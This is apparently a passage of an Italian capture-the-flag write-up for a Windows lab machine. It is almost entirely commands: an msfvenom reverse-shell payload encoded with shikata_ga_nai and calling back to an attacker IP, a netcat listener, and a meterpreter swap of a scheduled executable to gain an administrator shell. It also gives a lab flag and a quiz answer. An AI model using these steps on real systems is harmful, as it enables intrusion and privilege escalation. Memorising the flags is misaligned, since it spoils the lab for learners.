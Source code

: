 da Kali
```
msfvenom -p windows/shell_reverse_tcp --encoder x86/shikata_ga_nai LHOST=10.11.116.149 LPORT=1234 -f exe > Message.exe
```

```
nc -nlvp 1234
```

da meterpreter
```
cd "C:/Program Files (x86)/SystemScheduler"
```

```
mv Message.exe Message.old
```

```
upload /home/kali/Message.exe "C:\\Program Files (x86)\\SystemScheduler\\Message.exe"
```

**otteniamo la reverse shell con privilegi elevati in quanto Message.exe è stato eseguito come amministratore**
```
whoami
```

```
cd C:/Users/jeff/Desktop/
```

```
C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
```

```
cd C:/Users/Administrator/Desktop/
```

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
7e1xxxxxxxxxxxxxxxxxxxxx
```
Utilizzando winPeas, qual era l'ora di installazione originale? (Data e ora)
```
systeminfo
```

```
Original Install Date:     8/3/2019, 10:43:23 AM
```

